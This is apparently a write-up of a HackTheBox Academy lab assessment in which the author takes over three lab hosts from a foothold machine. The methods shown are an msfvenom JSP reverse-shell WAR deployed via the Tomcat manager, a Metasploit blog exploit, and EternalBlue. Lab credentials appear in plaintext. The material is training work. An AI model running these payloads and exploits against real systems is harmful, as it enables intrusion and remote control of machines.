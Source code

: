 # The Live Engagement
Credentials and Information:<br>
Foothold:
- IP: `10.129.204.126`
- Credentials: `htb-student:HTB_@cademy_stdnt!` (can be used by RDP)

![Layout](img/target_map.png) <br>
We need to exploit these 3 hosts with the Foothold PC.

## Approach
Through this exercise, I will be connected to the foothold machine.
```bash
xfreerdp3 /v:10.129.204.126 /u:htb-student /p:HTB_@cademy_stdnt! /dynamic-resolution
```
We find that there is an interesting file, `access-creds.txt`.<br>
Credentials obtained:
- `admin:admin123!@#` (to manage blog)
- `tomcat:Tomcatadm` (to manage Tomcat on apache)

### Host 1
First, we need to find the hostname of Host 1.<br>
On the foothold machine, we can perform an Nmap scan to obtain the hostname of Host 1.
```bash
sudo nmap -A 172.16.1.11
```
![Hostname](img/hostname_1.png)<br>
We can see that the hostname of Host 1 is `SHELLS-WINSVR`.

Host 1 appears to be a web server since it is hosting a web application on port 8080.<br>
Visiting `https://172.16.1.11:8080` on Firefox, we can see that the website runs on Tomcat, which is written in Java.

We see that there is a "Manager App" portion, but we require credentials to access it. Using the credentials from `access-creds.txt`, we successfully logged in to Tomcat Web Application Manager.

Looking around the page, I noticed that we can deploy a WAR file. <br>
![WAR section](img/war_section.png) <br>
I will create a WAR java/jsp compatible web reverse shell payload.
The internal IP of the foothold machine is `172.16.1.5` through `ifconfig`.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war -o rev_shell.war
```
We will first start a listener on the foothold machine.
```bash
sudo nc -nlvp 443
```
Then, we upload and deploy `rev_shell.war`. <br>
To activate the WAR file, we can access `http://172.16.1.11/rev_shell`.

We then obtained a reverse shell on Host 1. <br>
![Reverse shell](img/host1_revshell.png)<br>
We can then change directory to `C:\Shares` and find out that the directory located in `C:\Shares` is `dev-share`.

### Host 2
Host 2 appears to be a blog when we access `blog.inlanefreight.local`.

To obtain the Linux distribution that Host-2 is running, we can perform an Nmap scan.
```bash
nmap -A blog.inlanefreight.local
```
![Host 2](img/host_2.png) <br>
We can see that Host-2 is running `Ubuntu`. Host 2's IP is `172.16.1.12`.

Upon looking through the blog, I noticed a post regarding an exploit on the blog itself. <br>
![Host 2 blog](img/host2_blog.png)<br>
Looking through the `50064.rb` exploit code, I found out that the reverse shell is written in PHP.

We can use `locate 50064.rb` to check if the foothold machine has the exploit code, and there is!<br>
We will need to move the exploit code to `/modules/exploits` under the Metasploit-Framework.
```bash
cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/50064.rb
```
We can then start up Metasploit and execute the exploit.
```bash
msfconsole
```
```
msf6 > reload_all				## Load 50064.rb
msf6 > use 50064.rb
```
We will configure the options of the module to fit our needs.
![exploit options](img/host2_msfconsole.png)<br>
We managed to obtain a meterpreter shell, and subsequently obtained the contents of `/customscripts/flag.txt`.

![Flag](img/host2_flag.png)

### Host 3
We first perform a Nmap scan on the target.
```bash
nmap -A 172.16.1.13
```
![Nmap Results](img/host_3.png)<br>
We can see that the hostname for Host 3 is `SHELLS-WINBLUE`.

![Nmap Results](img/host3_nmap.png)<br>
We can see Host 3 is running Windows Server 2016, EternalBlue is well known to be used against Windows Server version 16 or earlier.

Let's check if Host 3 is indeed vulnerable to EternalBlue with Metasploit's auxiliary module.
```bash
msfconsole
```
```
## Determine if Host 3 is vulnerable to EternalBlue
msf6 > use auxiliary/scanner/smb/smb_ms17_010
```
We configure the module's options to fit our purpose.
![Auxiliary EternalBlue](img/host3_auxiliary.png)<br>
We find out that Host 3 is indeed vulnerable to EternalBlue. So, let's carry out the exploit for EternalBlue on Host 3 to gain a shell on it.
```
msf6 > use exploit/windows/smb/ms17_010_psexec
```
We will configure the necessary options again and execute the exploit.
![MSF exploit](img/host3_msfoptions.png)<br>
We successfully obtained a shell on Host 3 and we can print the necessary contents.

![Host 3 flag](img/host3_answer.png)